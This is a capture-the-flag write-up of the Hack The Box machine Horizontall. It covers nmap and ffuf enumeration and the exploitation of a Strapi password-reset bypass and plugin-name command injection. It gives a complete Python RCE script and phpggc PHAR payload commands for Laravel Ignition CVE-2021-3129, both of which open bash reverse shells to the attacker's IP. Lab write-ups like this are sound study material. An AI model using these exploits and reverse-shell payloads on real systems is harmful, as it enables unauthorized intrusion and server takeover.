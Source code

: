 ![](horizontall_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.105 horizontall.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* http Server redirect to `horizontall.htb` 

found another subdomain from burp site-map

![](screenshots/site-map.png)

Making request to `/reviews`

* api is running on [Strapi](https://strapi.io/) CMS

Found some endpoints from fuzzing
```bash
❯ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://api-prod.horizontall.htb/FUZZ -X POST

# ... [snip] ...

email                   [Status: 403, Size: 60, Words: 1, Lines: 1]
users                   [Status: 403, Size: 60, Words: 1, Lines: 1]
upload                  [Status: 403, Size: 60, Words: 1, Lines: 1]


❯ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://api-prod.horizontall.htb/FUZZ

# ... [snip] ...

users                   [Status: 403, Size: 60, Words: 1, Lines: 1]
admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
```

`/admin` give 200 response

![](screenshots/strapi-admin.png)

`/admin` made 2 requests from `/users-permissions/init` and `/admin/init` endpoints in background.

![](screenshots/strapi-init.gif)

* This is a **development**.
* **strapiVersion:** `3.0.0-beta.17.4`

Found some vulnerabilities online.

* From GitHub Advisory Database [Privilege Escalation in strapi](https://github.com/advisories/GHSA-6xc2-mj39-q599): Versions of strapi prior to 3.0.0-beta.17.5 are vulnerable to Privilege Escalation. The password reset routes allows an unauthenticated attacker to reset an admin's password without providing a valid password reset token.

* From snyk database [Arbitrary Code Injection](https://snyk.io/vuln/SNYK-JS-STRAPI-536641): Affected versions of this package are vulnerable to Arbitrary Code Injection. The package fails to sanitize plugin names in the `/admin/plugins/install/` route. This may allow an **authenticated attacker** with admin privileges to run arbitrary commands in the server.
  * Exploit PoC Blog: https://bittherapy.net/post/strapi-framework-remote-code-execution/

# Foothold

## Improper Access Control

Affected versions of this package are vulnerable to Improper Access Control. It mishandles password resets within `packages/strapi-admin/controllers/Auth.js` and `packages/strapi-plugin-users-permissions/controllers/Auth.js`.

From fixed commit we can see that The issue was a lack of validation of the code parameter sent by the user: https://github.com/strapi/strapi/pull/4443/commits/e0424d4b880831dd643afff9c6ba475acdbae0be

Found reset password request parameter from [`packages/strapi-admin/controllers/Auth.js`](https://github.com/strapi/strapi/blob/7a61db72851d3ddf3fef172b47100737eb075ceb/packages/strapi-admin/controllers/Auth.js#L206)

![](screenshots/reset-params.png)

Sending crafted data in the POST request to `/admin/auth/reset-password`

![](screenshots/reset-token.png)

And get admin user auth token.

Now we can login as admin with new reset password

![](screenshots/admin-logedin.png)

## Command Injection

Strapi CMS versions `<3.0.0-beta.17.8` Affected to Arbitrary Code Injection. The package fails to sanitize plugin names in the `/admin/plugins/install/` route. This may allow an authenticated attacker with admin privileges to run arbitrary commands in the server.

Based on https://bittherapy.net/post/strapi-framework-remote-code-execution/ blog PoC inject payload in `/admin/plugins/install` POST request with data `{"plugin":"documentation && $(<payload>)", "port":"80"}` executes as Arbitrary Code.

![](screenshots/code-exec.gif)


RCE python script
```py
import requests as r
import json

s = r.Session()
# Enable burp proxy
# s.proxies = {'http': 'localhost:8080'}
url = 'http://api-prod.horizontall.htb'

# Send Reset password request to retrieve admin jwt token
reset_data = {"code": {}, "password": "p00rduck", "passwordConfirmation": "p00rduck"}
rspn = s.post(f"{url}/admin/auth/reset-password", json=reset_data)
json_pars = json.loads(rspn.content.decode())
print("[+] Reset Response: \n" + rspn.content.decode())

# Send reverse shell in plugins install request
s.headers = {'Authorization': f'Bearer {json_pars["jwt"]}'}
payload = {"plugin": "documentation && $(/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.71/4141 0>&1')", "port": "80"}
try:
    rspn = s.post(f"{url}/admin/plugins/install", json=payload, timeout=10)
    print(rspn.text)
except r.exceptions.Timeout:
    print('[!] Exception: timeout')
    
s.close()
```

# Privesc

Found database creds from linpeas output

![](screenshots/db-creds.png)

There are some services running on local ports
```bash
(remote) strapi@horizontall:/tmp$ ss -lntp | grep 127
LISTEN   4         128               127.0.0.1:1337             0.0.0.0:*        users:(("node",pid=1805,fd=31))
LISTEN   0         128               127.0.0.1:8000             0.0.0.0:*
LISTEN   0         80                127.0.0.1:3306             0.0.0.0:* 
```

* Port 8000 is running **`Laravel v8 (PHP v7.4.18)`** found with `curl`.
* Froward port 8000 with socat `./socat tcp-l:8001,fork,reuseaddr tcp:127.0.0.1:8000 &`.

Now we can access to local port 8000 from remote port 8001.

* `nuclei` found laravel debug mode is enabled.
* Also found CVE-2021-3129 in laravel. 

  ![](screenshots/nuclei-scan.png)

## Laravel <8.4.2 debug mode with Ignition <2.5.2 RCE

Ignition before 2.5.2, as used in Laravel and other products, allows unauthenticated remote attackers to execute arbitrary code because of insecure usage of `file_get_contents()` and `file_put_contents()`. This is exploitable on sites using debug mode with Laravel before 8.4.2. 

* PoC Detailed blog: https://www.ambionics.io/blog/laravel-debug-rce
* Exploit script: https://github.com/ambionics/laravel-exploits

How this happened is, `viewFile` parameter from `/_ignition/execute-solution` request is vulnerable for PHAR deserialization vulnerability.

**Generate PHAR payload using PHPGGC**
```bash
php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system id
```

**Execute Script**
```bash
./laravel-ignition-rce.py http://10.10.11.105:8001/ /tmp/exploit.phar
```

![](screenshots/root-rce.png)


Get reverse shell with
```bash
php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system '/bin/bash -c "bash -i >& /dev/tcp/10.10.15.71/4141 0>&1"'
```

![](screenshots/rooted.png)
